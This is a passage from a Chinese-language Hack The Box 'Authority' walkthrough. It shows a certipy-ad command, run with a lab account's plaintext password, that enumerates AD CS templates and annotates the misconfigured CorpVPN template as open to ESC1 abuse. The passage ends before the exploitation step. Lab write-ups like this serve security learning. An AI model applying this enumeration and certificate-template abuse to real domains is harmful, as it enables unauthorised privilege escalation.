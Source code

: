 # 05. ESC1+PassTheCert提权

由于该机器存在LDAPS服务，并且 `svc_ldap` 有权限访问LDAPS服务。我们尝试使用该用户枚举并寻找ADCS服务是否存在以及是否有漏洞。

```bash
kali@kali[~]$ certipy-ad find -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

<省略...>
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : AUTHORITY-CA
    DNS Name                            : authority.authority.htb
    Certificate Subject                 : CN=AUTHORITY-CA, DC=authority, DC=htb
<省略...>
Certificate Templates
  0
    Template Name                       : CorpVPN
    Display Name                        : Corp VPN
    Certificate Authorities             : AUTHORITY-CA
    Enabled                             : True
[4] Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
[5] Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollmentCheckUserDsCertificate
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
[4] Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
                                          Document Signing
                                          IP security IKE intermediate
                                          IP security use
                                          KDC Authentication
[2] Requires Manager Approval           : False
    Requires Key Archival               : False
[3] Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
[1]     Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
```